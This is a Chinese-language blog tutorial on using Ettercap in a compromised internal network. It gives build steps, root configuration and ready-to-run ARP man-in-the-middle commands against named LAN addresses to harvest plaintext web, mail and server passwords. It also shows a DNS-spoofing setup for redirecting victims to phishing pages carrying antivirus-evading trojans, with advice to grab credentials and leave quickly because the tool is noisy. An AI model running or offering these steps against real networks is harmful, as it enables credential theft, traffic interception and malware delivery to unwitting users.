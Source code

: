 # [Ettercap 基础使用](https://klionsec.github.io/2017/10/25/ettercap/)

## 0x01 关于ettercap

> 1. ettercap 确实已经非常老了,也确实是那个时代的经典,而且差不多三四年这个项目也都没再更新过了
> 2. 对于一些防护并不是特别好的内网,依然非常实用,千万不要觉得工具老就没有它的应用场地,那样你就真的错了,如果真是这样,就不会有这么多的二次深度开发了
> 3. 大家可能也发现了,像这类的工具我基本都是在模拟真实的生产机器环境上编译安装的
> 4. 具体原因大家想必都很清楚,像这类基于二层的arp嗅探是没法直接在远程做的,毕竟不是直接处在目标的vpn内网中
> 5. socks代理再牛逼,它也只是个基于端口的四层代理,并不是vpn,所以,是没法直接在本地嗅远程的arp的,至于GRE隧道,咱们抽空再另说
> 6. 话不多讲,直奔今天的主题,ettercap基础使用,注意,此次仅仅是基础使用



## 0x02 开启本地的路由转发

```shell
# echo 1 > /proc/sys/net/ipv4/ip_forward
# cat /proc/sys/net/ipv4/ip_forward
```



## 0x03 基础演示环境

```shell
CentOS release 6.9 (Final)  x86-64 ip: 192.168.3.4  接口名称: eth2  ettercap所在机器
win2008r2 			   ip: 192.168.3.23 
win7cn				   ip: 192.168.3.8
```





## 0x04 暂以centos 6.8 x86_64为例,编译安装 ettercap 0.8.2

```shell
# yum groupinstall "Development tools" -y
# yum install cmake ncurses ncurses-devel openssl openssl-devel gcc-c++ flex bison gtk2 gtk2-devel -y
# tar xf ettercap-0.8.2.tar.gz
# cd ettercap-0.8.2/bundled_deps/
# ls

# cd check/
# tar xf check-0.9.14.tar.gz
# cd check-0.9.14
# ./configure && make && make install
# echo $? && cd ../../

# cd curl/
# tar xf curl-7.41.0.tar.gz
# cd curl-7.41.0
# ./configure && make && make install
# echo $? && cd ../../

# cd libnet/
# tar xf libnet-1.1.6.tar.gz
# cd libnet-1.1.6
# ./configure && make && make install
# echo $? && cd ../../

# cd luajit/
# tar xf LuaJIT-2.0.3.tar.gz
# cd LuaJIT-2.0.3
# make && make install
# echo $? && cd ../../

# tar xf libpcap-1.5.3.tar.gz
# cd libpcap-1.5.3
# ./configure && make && make install
# echo $? && cd ../../

# cat INSTALL
# mkdir build
# cd build/
# cmake ../
# make && make install
# echo $? && cd
```

## 0x05 ettercap安装后的默认配置文件位置如下,修改配置文件,让其以root权限身份运行,一般嗅探都是在提权成功以后的动作,这样能嗅到的东西会更多一些

```shell
# cd /etc/ettercap/
# vi /etc/ettercap/etter.conf
 ec_uid = 0                
 ec_gid = 0
```



0x06 ettercap默认规则 [filter] 目录

```shell
# ll /usr/local/share/ettercap/
```



![img](../../../../#ImageAssets/ettercap-filter-1587994459905.png)

0x07 装完以后先简单测试下ettercap是否真正已经可用,尝试嗅下3.8到3.23之间的明文数据

```shell
# ettercap -Tqi eth2 -M arp:remote /192.168.3.8/ /192.168.3.23/
```



![img](../../../../#ImageAssets/ettercap-rest-1587994467738.png)

0x08 ettercap 选项功能简要说明

```shell
-M 进行中间人攻击,可自行指定用什么类型的中间人,如,arp,dhcp,icmp...
-o 不嗅探数据,单单只进行中间人欺骗
-T 建议使用文本模式,一般实战中基本是不会有图形界面给你的
-q 安静模式,减少输出
-D 把ettercap作为一个系统服务来运行,意思就是让它在后台跑,比较方便
-w 把监听的数据写到指定的pcap文件中 
-L 将所有流量写到指定的日志文件中
-l 被动记录
-i 指定要用于嗅探的网卡接口
-F 导入自定义数据包过滤规则文件
-P 导入插件,增强中间人攻击
-p 不启用网卡混杂模式,只嗅当前机器的各类明文数据
```



0x09 关于ettercap的其它更多详情,请自行参考工具自身帮助

```shell
# man ettercap
# ettercap -P list  查看ettercap内置的所有插件
```



![img](../../../../#ImageAssets/ettercap-local-plugins-1587994482679.png)

0x10 只嗅探本机指定端口上的明文数据,如,各类web管理登陆密码[80,8080],如果是当前机器是个邮件服务器,无疑是极好的,起码不用再自己苦逼的到处搜集密码了,直接守住这儿慢慢抓密码就好了,在某些内网中通过这种方式来搜集密码,还是非常可行的

```shell
# ettercap -i eth2 -T -q -p -l local //25,80,110,143,8080 
# etterlog local.eci
```



![img](../../../../#ImageAssets/ettercap-local-sniff-1587994489242.png)
![image-20200716172639161](../../../../#ImageAssets/image-20200716172639161.png)

0x011 只嗅探指定机器之间的明文通信数据

嗅探这个ip段范围和网关之间的通信数据,其实说白点就是想嗅探目标机器在一些公网站点上登陆的明文账号密码

```shell
# ettercap -T -q -i eth2  -L webadmin -M arp:remote /192.168.3.1/ /192.168.3.2-25/    
# etterlog webadmin.eci
```



![img](../../../../#ImageAssets/arp_sniffer_common-1587994492773.png)

嗅探3.220-251和3.3这台机器之间的所有明文通信数据,主要想快速拿到内网服务器的账号密码,所以,你实际挑内网机器的时候,最好有针对性,一旦拿到密码立马就跑路,这工具动静儿太大

```shell
# ettercap -Tq -i eth2  -L mail -M arp:remote /192.168.3.3/ /192.168.3.220-251/
# etterlog mail.eci
```



在目标内网中利用dns欺骗来针对性钓鱼挂马,马要免杀,页面也逼真,否则很容易被发现

```shell
# vi /etc/ettercap/etter.dns
  # microsoft sucks ;)找到这行
  # redirect it to www.linux.org
    demlution.com       A   192.168.3.23
    www.demlution.com   A   192.168.3.23
# ettercap -Tq -i eth2 -P dns_spoof  -M arp /192.168.3.1/ /192.168.3.3-100/
```



![img](../../../../#ImageAssets/ettercap-dns2_res-1587994499271.png)
![image-20200716172606412](../../../../#ImageAssets/image-20200716172606412.png)

0x12 当然,ettercap绝非远远就这么点儿功用,来日方长,关于定制规则脚本以及其它的各类高级应用,考虑篇幅,我们后续再慢慢说

0x13 提前先来了解几个 ettercap 的简单规则脚本语法

```shell
search(where,what) 从字符串where中查找what，若找到则返回true
regex(where,regex) 从字符串where中匹配正则表达式regex，若找到则返回true
replace(what,with) 把字符串what替换成字符串with
log(what,where)    把字符串what记录到where文件中
msg(message) 	   在屏幕上显示出字符串message
exit() 		   退出
```

https://klionsec.github.io/tags/ettercap